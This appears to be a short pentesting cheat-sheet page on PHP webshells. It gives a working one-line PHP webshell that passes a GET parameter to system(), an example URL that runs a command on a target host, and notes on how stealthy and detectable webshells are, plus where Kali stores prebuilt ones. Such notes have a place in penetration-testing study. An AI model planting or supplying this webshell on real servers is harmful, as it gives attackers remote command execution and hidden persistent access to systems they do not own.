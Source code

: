 # Webshell

## Basic cmd-shell

This code can be injected into pages that use php.
```
<?php system($_GET['cmd']); ?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

## Webshells
Wellshells have the benefit of running on port 80/443. Which makes it a bit more stealthy, it doesn't create a new connection that can be discovered. But on the other hand it creates a lot of strange logs that can be easy to detect.

You have access to different kinds of webshells on Kali here:
```
/usr/share/webshells
```

http://www.binarytides.com/web-shells-tutorial/
